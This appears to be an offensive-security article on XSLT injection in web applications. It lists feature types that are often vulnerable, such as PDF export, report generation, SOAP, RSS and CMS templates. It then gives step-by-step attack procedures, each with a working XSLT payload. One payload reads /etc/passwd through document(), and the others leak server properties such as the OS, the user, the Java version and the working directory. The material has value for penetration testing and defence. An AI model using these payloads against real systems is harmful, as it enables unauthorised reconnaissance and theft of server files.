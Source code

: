 ```yaml
---
title: XSLT Injection in Web Applications Context
description: Explore how XSLT injection affects web applications, with exploitation
  techniques and common vulnerable features.
keywords:
- XSLT injection
- XML vulnerabilities
- web application security
- PDF generation attacks
- report generation vulnerabilities
- SOAP service exploitation
- data transformation APIs
- CMS XSLT injection
- RSS feed transformation
- server-side XSLT exploitation
---
```


# Application Context

## Context

The goal of this article is to demonstrate how XSLT injection vulnerabilities can be exploited within various web application contexts. XSLT injection is a technique used in offensive cybersecurity to manipulate or execute malicious code through unsanitized user input in XSLT stylesheets. To fully understand this topic, readers need prior knowledge of how XSLT processing works, the structure and parsing of XML, and the basic architecture of web applications, including general techniques for XSLT injection.

## Theory

### XSLT Injection in Web Application Features

XSLT injection vulnerabilities occur when user-supplied input is unsafely embedded into XSLT stylesheets processed by the server. This often happens in application features which transform or generate content using XML or XSLT provided by users. An attacker can exploit these vulnerabilities by identifying entry points where their input can affect XSLT processing, injecting malicious XSLT code, and triggering the execution to achieve undesirable effects.

### Common Vulnerable Application Contexts

Various application contexts are prone to XSLT injection due to their reliance on dynamic transformations and rendering of user-generated content.

- **PDF Generation**: Features allowing users to export data into PDF formats, where they can upload XML or XSLT, present opportunities for injection attacks.
- **XML Report Generation**: Custom reporting capabilities that use XML/XSLT templates can be targeted to alter data transformations maliciously.
- **Data Transformation APIs**: Endpoints converting XML to HTML or JSON through XSLT can be exploited if they process untrusted input.
- **SOAP Web Services**: Transformations applied to SOAP messages with XSLT are vulnerable to injection by crafted payloads.
- **RSS Feed Transformation**: Applications using XSLT to render RSS feeds risk manipulation if they do not validate input sources.
- **CMS Systems**: Content management systems that permit custom XSLT for rendering content may give attackers a path to introduce malicious stylesheets.

### Attacker Mindset: Targeting XSLT in Application Workflows

An offensive strategy includes mapping application features that accept XML/XSLT input or templates. The attacker then probes these features to find reflection or execution of injected XSLT expressions, leveraging business logic, such as report generation or document exports, to trigger these transformations maliciously.

## Practice

### Exploiting PDF Generation via XSLT Injection

1. Identify features for PDF export or report generation that accept XML or XSLT uploads.
2. Inject the following XSLT payload to extract the server operating system's name:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('os.name')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit the crafted payload and download the resulting PDF.
4. Review the PDF to detect any injected output such as the server OS name.

### Abusing XML Report Generation with XSLT Injection

1. Locate report generation functions that accept user-supplied XML or XSLT templates.
2. Use the following payload to attempt reading sensitive server-side files:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="document('file:///etc/passwd')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Trigger the report generation and check the output for contents of the targeted file.

### Targeting Data Transformation APIs for XSLT Injection

1. Identify API endpoints that convert XML to other formats using XSLT.
2. Inject the following payload to gather server user information from API responses:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('user.name')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit this payload and analyze the API's response for sensitive information returns.

### Exploiting SOAP Web Services with XSLT Injection

1. Discover SOAP endpoints where XSLT transforms messages.
2. Use this payload to determine the Java runtime version in the SOAP response:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('java.version')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Inject this payload within a SOAP request and verify the response for the extracted data.

### Attacking RSS Feed Transformation in Web Applications

1. Identify features in applications using XSLT for RSS feed imports or transformations.
2. Inject this payload to extract the architecture of the server into the feed:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('os.arch')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Submit the payload and closely inspect the transformed feed output for leaked data.

### Compromising CMS Systems via Custom XSLT Injection

1. Identify CMS plugins/modules allowing custom XSLT for rendering content.
2. Inject the following payload to access and present the server's working directory:

   ```xml
   <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/">
           <xsl:value-of select="system-property('user.dir')"/>
       </xsl:template>
   </xsl:stylesheet>
   ```

3. Use the CMS to preview or publish the content and look for leaking server data.

## Tools

- **Burp Suite**
- **Postman**
- **curl** 

This document provides a practical framework for understanding and exploiting XSLT injection in various application contexts, allowing attackers to leverage weak points in web services that use or transform XML input in insecure ways.